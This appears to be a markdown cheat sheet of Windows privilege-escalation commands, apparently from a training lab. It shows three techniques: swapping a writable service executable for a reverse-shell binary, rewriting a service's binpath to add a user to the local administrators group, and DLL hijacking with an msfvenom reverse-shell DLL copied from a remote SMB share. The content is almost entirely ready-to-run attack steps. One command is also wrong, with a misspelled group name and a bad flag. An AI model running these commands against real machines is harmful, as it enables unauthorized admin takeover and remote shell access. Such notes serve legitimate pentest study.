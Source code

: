 ### Insecure Service Executables

```
.\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"

To check permissions to start the service

.\accesschk.exe /accepteula -ucqv user filepermsvc

Backup the original service executable

copy  "C:\Program Files\File Permissions Service\filepermservice.exe" C:\Temp

copy /Y C:\PrivEsc\reverse.exe  "C:\Program Files\File Permissions Service\filepermservice.exe"

net start filepermsvc
```

### Escalation via binary paths

```
.\accesschk.exe /accepteula -uwcv Everyone *

To check permissions to start the service and change the config (SERVICE_QUERY_CONFIG)

.\accesschk.exe /accepteula -uwcv daclsvc  (name of the service found)

See current configuration

sc qc daclsvc

sc config daclsvc binpath="net localgroup admnistrators user /a"

sc stop daclsvc

sc start daclsvc
```

### DLL Hijacking

Check for folders that are writable and in the PATH

Check for the executables

```
sc qc dllsvc
```

Start Procmon to analyse .exe

Check what dll the .exe is calling

```
Generate a reverse shell

msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP LPORT=9001 -f dll -o /tools/hijackme.dll

copy \\192.168.1.11\tools\hijackme.dll C:\Temp

net stop dllsvc
net start dllsvc
```
